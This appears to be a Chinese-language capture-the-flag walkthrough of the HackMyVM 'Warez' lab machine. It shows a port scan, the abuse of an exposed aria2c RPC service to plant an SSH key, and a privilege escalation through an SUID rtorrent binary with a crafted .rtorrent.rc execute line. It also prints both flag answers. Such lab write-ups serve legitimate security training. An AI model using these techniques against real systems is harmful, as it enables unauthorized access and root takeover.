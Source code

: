 # Warez

2024.12.31 https://hackmyvm.eu/machines/machine.php?vm=Warez

## Ip

192.168.5.40

## Scan

```
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
6800/tcp open  unknown
```

查看 80 web 服务，扫描目录发现 http://192.168.5.40/result.txt 其中有一些系统进程的日志，能发现一个用户名 carolina :

```
carolina     394  0.0  0.0   2420   576 ?        Ss   02:42   0:00 /bin/sh -c aria2c --enable-rpc --rpc-listen-all
carolina     395  0.0  1.4  56736 14464 ?        S    02:42   0:00 aria2c --enable-rpc --rpc-listen-all
```

发现 aria2c 是以 carolina 用户在运行。

访问 http://192.168.5.40/ 发现 aria2c 的下载目录是在 /home/carolina , 所以直接创建 ssh 的连接密钥，然后通过 aria2c 下载到目标机器将生成的公钥下载到目标机器的.ssh/authorized_keys 文件中。

通过 ssh 登陆到目标机器：

```
ssh -i ssh carolina@192.168.5.40
```

先获得了 user flag:

```
carolina@warez:~$ cat user.txt
HMVKeepdownloading
```

提权到 root，发现 suid 程序 rtorrent 直接提权：

```
echo "execute = /bin/sh,-p,-c,\"/bin/sh -p <$(tty) >$(tty) 2>$(tty)\"" >~/.rtorrent.rc
rtorrent

# cat /root/root.txt
HMVKeepsharing
```
